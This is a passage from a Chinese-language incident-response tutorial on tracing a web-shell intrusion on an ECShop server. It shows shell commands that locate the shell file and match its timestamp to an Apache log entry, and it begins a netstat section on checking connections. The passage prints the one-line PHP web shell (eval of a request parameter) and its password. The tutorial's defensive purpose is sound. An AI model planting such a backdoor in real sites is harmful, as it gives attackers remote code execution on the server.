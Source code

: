 ```
-rw-r--r-- 1 www www 31 2023/08/01 21:09:23 /www/wwwroot/ecshop.xueshenit.com/vulnspy.php
```

查看可疑文件

```
[root@xuegod63 ~]# cat /www/wwwroot/ecshop.xueshenit.com/vulnspy.php
```

```
<?php eval($_REQUEST[vulnspy]);You have new mail in /var/spool/mail/root
```

> 密码为 `vulnspy`

打印出时间

```
[root@xuegod63 ~]# ll /www/wwwroot/ecshop.xueshenit.com/vulnspy.php |cut -f 7 -d' '
```

```
21:09:23
```

在 apache 日志中查看这个时间的记录

```
[root@xuegod63 ~]# grep "21:09:23" /www/wwwlogs/access_log
```

```
123.113.73.154 - - [01/Aug/2023:21:09:23 +0800] "POST /user.php HTTP/1.1" 200 2
```

> 得到 IP 可以通过 IP 反查信息
> 
> https://ip.fm/

### 2.5 检查服务器已经建立的网络连接

如果黑客已经和服务器建立了连接，可通过查看当前服务器已经建立的链接来分析恶意 ip 和进程。

Linux 中查看网络连接常用 netstat。

| 操作  | 描述                        |
| --- | ------------------------- |
| -a  | 显示所有连线中的 Socket           |
| -n  | 直接使用 ip 地址，而不通过域名服务器      |
| -p  | 显示正在使用 Socket 的程序识别码和程序名称 |
| -t  | 显示 TCP 传输协议的连线状况          |
| -u  | 显示 UDP 传输协议的连线状况          |

查看服务器建立的链接

```
[root@xuegod63 ~]# netstat -anutp
```
